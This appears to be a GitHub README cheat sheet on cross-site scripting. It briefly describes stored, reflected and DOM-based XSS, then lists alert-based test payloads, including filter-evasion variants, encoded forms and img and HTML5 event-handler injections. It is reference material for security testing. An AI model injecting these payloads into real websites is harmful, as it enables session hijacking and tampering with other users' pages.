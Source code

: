 Cross Site Scripting
----------------------------

Types of XSS injections:

1)Stored - it is possible when a website or web application stores user input and later serves it to other users. An application is vulnerable if it does not validate user input before storing content and embedding it into HTML response pages.


2)Reflected - the attacker’s payload has to be a part of the request that is sent to the web server. It is then reflected back in such a way that the HTTP response includes the payload from the HTTP request. Attackers use malicious links, phishing emails, and other social engineering techniques to lure the victim into making a request to the server.


3)DOM base - It is possible if the web application’s client-side scripts write data provided by the user to the Document Object Model (DOM). The data is subsequently read from the DOM by the web application and outputted to the browser. If the data is incorrectly handled, an attacker can inject a payload, which will be stored as part of the DOM and executed when the data is read back from the DOM.

Basic payload:
```
';alert('xss inj');' 
<script>alert('xss inj')</script>
<sCrIpt>alert(1)</ScRipt>
<scr<script>ipt>alert('xss inj')</scr<script>ipt>
"><script>alert('xss inj')</script>
"><script>alert(String.fromCharCode(88,83,83))</script>
%3Cscript%3Ealert(%27xss%20inj%27)%3C%2Fscript%3E
%253Cscript%253Ealert(%2527xss%2520inj%2527)%253C%252Fscript%253E
#"><img src=/ onerror=alert(2)>
```

Image payload
```
<img src="javascript:alert('xss inj');">
<img """><script>alert("xss inj")</script>">
<img src= onmouseover="alert('xxs')">
<img src=x onerror="alert(String.fromCharCode(88,83,83))"></img>
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
```

HTML5 payload
```
<body onload=alert(/xss/.source)>
<select autofocus onfocus=alert('xss inj')>
<input autofocus onfocus=alert('xss inj')>
<textarea autofocus onfocus=alert('xss inj')>
```

What is available for manipulation:  
1.Cookie  
2.DOM  
3.Connectivity  
4.Async JS requests   


References:
-------------------------------------
[Wikipedia](https://en.wikipedia.org/wiki/Cross-site_scripting)  
[Owasp](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))
